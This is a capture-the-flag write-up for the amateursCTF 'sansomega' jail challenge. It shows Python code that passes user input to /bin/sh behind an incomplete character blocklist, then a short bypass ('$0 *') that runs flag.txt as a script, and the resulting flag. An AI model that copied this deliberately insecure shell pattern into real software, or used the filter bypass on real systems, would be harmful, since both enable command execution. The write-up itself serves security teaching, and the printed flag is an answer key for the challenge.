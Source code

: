 ## jail/sansomega

solved by vulnx https://vulnx.github.io/

## challenge description

Somehow I think the pico one had too many unintendeds...

So I left some more in :)

nc chal.amt.rs 2100

![sansomega](assets/image.png)

### Analysis

```py
#!/usr/local/bin/python3
import subprocess

BANNED = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz\\"\'`:{}[]'


def shell():
    while True:
        cmd = input('$ ')
        if any(c in BANNED for c in cmd):
            print('Banned characters detected')
            exit(1)

        if len(cmd) >= 20:
            print('Command too long')
            exit(1)

        proc = subprocess.Popen(
            ["/bin/sh", "-c", cmd], stdout=subprocess.PIPE, stderr=subprocess.STDOUT)

        print(proc.stdout.read().decode('utf-8'), end='')

if __name__ == '__main__':
    shell()
```

The program basically allows us arbitrary command execution but blocks the following characters:

```
ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz\\"\'`:{}[]
```

### Vulnerability

This list is obviously incomplete, we can use `$0` 

> When not used in the script, the `$0` holds the information of which shell you are currently using. So if you print the value of the `$0`, it will show you which shell you are currently logged in.

as well as `*`

```console
> nc chal.amt.rs 2100
$ *
/bin/sh: 1: flag.txt: not found
$
```

this shows that the current working directory contains the flag.txt file.

### Exploit

We can combine `$0` with `*` to execute the flag.txt file as a shell script, this will try to execute the flag contents as a shell command and ultimately give the `<command>: not found` error.

```console
> nc chal.amt.rs 2100
$ $0 *
flag.txt: 1: amateursCTF{pic0_w45n7_g00d_n0ugh_50_i_700k_som3_cr34t1v3_l1b3rt135_ade8820e}: not found
```

### Flag

`amateursCTF{pic0_w45n7_g00d_n0ugh_50_i_700k_som3_cr34t1v3_l1b3rt135_ade8820e}`